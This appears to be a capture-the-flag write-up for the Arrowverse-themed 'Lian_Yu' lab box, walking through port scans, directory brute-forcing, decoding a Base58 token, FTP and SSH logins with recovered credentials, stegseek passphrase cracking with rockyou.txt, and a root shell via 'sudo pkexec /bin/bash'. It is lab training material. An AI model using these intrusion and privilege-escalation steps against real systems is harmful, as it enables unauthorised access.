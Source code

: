 # Lian_Yu

## Description

> Welcome to Lian_YU, this Arrowverse themed beginner CTF box! Capture the flags and have fun.

## Writeup

### Port Scan

Starting off I ran a **rustscan** scan over the full port range using the command `rustscan -a $IP -r 1-65535 --ulimit 5000 -g`.

```text
10.10.121.97 -> [21,22,80,111]
```

With this list of ports I can run a more targetted **nmap scan** to get the services and service versions.

**Command**: `nmap -p 21,22,80,111 -A -oA nmap-scan -v $IP`

```text
PORT    STATE SERVICE VERSION
21/tcp  open  ftp     vsftpd 3.0.2
22/tcp  open  ssh     OpenSSH 6.7p1 Debian 5+deb8u8 (protocol 2.0)
| ssh-hostkey: 
|   1024 5650bd11efd4ac5632c3ee733ede87f4 (DSA)
|   2048 396f3a9cb62dad0cd86dbe77130725d6 (RSA)
|   256 a66996d76d6127967ebb9f83601b5212 (ECDSA)
|_  256 3f437675a85aa6cd33b066420491fea0 (ED25519)
80/tcp  open  http    Apache httpd
|_http-server-header: Apache
|_http-title: Purgatory
| http-methods: 
|_  Supported Methods: POST OPTIONS GET HEAD
111/tcp open  rpcbind 2-4 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  3,4          111/tcp6  rpcbind
|   100000  3,4          111/udp6  rpcbind
|   100024  1          42223/tcp   status
|   100024  1          48835/tcp6  status
|   100024  1          54239/udp   status
|_  100024  1          58148/udp6  status
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

### FTP Pt.1

I tried logging into **FTP** using `anonymous:""` but it wasn't allowed so now I know to look out for ftp credentials.

```text
❯ ftp $IP
Connected to 10.10.121.97.
220 (vsFTPd 3.0.2)
Name (10.10.121.97:sam): anonymous
530 Permission denied.
ftp: Login failed
ftp> bye
221 Goodbye.
```

### HTTP

Moving on to the web server on port 80, I started a directory scan using **Feroxbuster** and  `common.txt` from **SecLists** but it didn't return any good results so I tried `big.txt` which returned the following line:

`301      GET        7l       20w      235c http://10.10.121.97/island => http://10.10.121.97/island/`

Going to this page gives us the following which has hidden text but you can hit `Ctrl+A` to see the **Code Word** `vigilante`

![Code Word](images/codeword.png)

From here I got super stuck so I used my first hint which said:

> In numbers

From that I though I shoud run a directory scan using a wordlist of numbers up to **10,000** using the following script

```python
with open("numbers.txt", "w") as file:
    for n in range(10000):
        file.write(str(n) + '\n')
```

Then using `feroxbuster --url http://$IP/island --wordlist=numbers.txt -t 200`. You might notice I scanned /island instead of / which is because /island gave me this result

`301      GET        7l       20w      240c http://10.10.121.97/island/2100 => http://10.10.121.97/island/2100/`

The page had a video which I couldn't view but the page had a comment that states `<!-- you can avail your .ticket here but how?   -->`

`.ticket` seems like a file extenstion so I went back to the directory scans.

**MASSIVE NOTE TO SELF:** use `/usr/share/SecLists/Discovery/Web-Content/directory-list-2.3-big.txt`

I finally found a `.ticket` file at <http://10.10.121.97/island/2100/green_arrow.ticket> using the command `feroxbuster --url http://$IP/ --wordlist=/usr/share/SecLists/Discovery/Web-Content/directory-list-2.3-big.txt -x ticket -t 200`. The wordlist I used in this command actually gave every directory we found using multiple wordlists in one command so it's my new default.

Inside `green_arrow.ticket` we found:

```text

This is just a token to get into Queen's Gambit(Ship)


RTy8yhBQdscX
```

The text at the bottom looks like some kind of encoded text so I took it to [Multi-Decoder](https://www.cachesleuth.com/multidecoder/) and checked through the ROT-N and Base decoding sections cos they are the most common and the most legible thing I found was `!#th3h00d` under **Base58**

### Getting into FTP

After finding this I tried to brute force a ftp username using **hydra** but then I remembered that I found that code word `vigilante` and tried it as a user name which worked and using the password we found I got into the ftp server.

Inside we have a couple of images

```text
ftp> ls
229 Entering Extended Passive Mode (|||30682|).
150 Here comes the directory listing.
-rw-r--r--    1 0        0          511720 May 01  2020 Leave_me_alone.png
-rw-r--r--    1 0        0          549924 May 05  2020 Queen's_Gambit.png
-rw-r--r--    1 0        0          191026 May 01  2020 aa.jpg
226 Directory send OK.
```

Ok so from here I went through some basic steps to examine the files `file -> strings -> binwalk -> steghide` but I didn't find anything so I tried running **stegseek** to try and bruteforce a stegonography passphrase. Surprising my first attempt gave me a result.

Command: `stegseek aa.jpg /usr/share/SecLists/Passwords/Leaked-Databases/rockyou.txt`

Inside I found `ss.zip` which had `passwd.txt` and `shado`. `passwd.txt` didn't really have anything useful but `shado` gave what looked like a password (**M3tahuman**).

### Initial Access (SSH)

From here I tried bruteforcing the username for ssh with that password but in the meantime I went back to FTP because I realised that it isn't just 1 directory the server has listing for the whole device for some reason which gave me another username `slade`. (He is a M3tahuman)

Using `slade:M3tahuman` I was able to login to SSH which had a pretty cool welcome message

![Welcome to SSH](images/welcome.png)

Inside slades home directory was `user.txt`

### Privilage Escalation: root

For privilage escalation on linux I normally start with `sudo -l` which did give me an entry with `root` using `pkexec`

```text
Matching Defaults entries for slade on LianYu:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User slade may run the following commands on LianYu:
    (root) PASSWD: /usr/bin/pkexec
```

Going to [GTFOBins](https://gtfobins.github.io/gtfobins/pkexec/) shows that we can just use the command `sudo /usr/bin/pkexec /bin/bash` to get a root shell.

![Got root](images/root.png)

Now we can get `root.txt` inside `/root`!
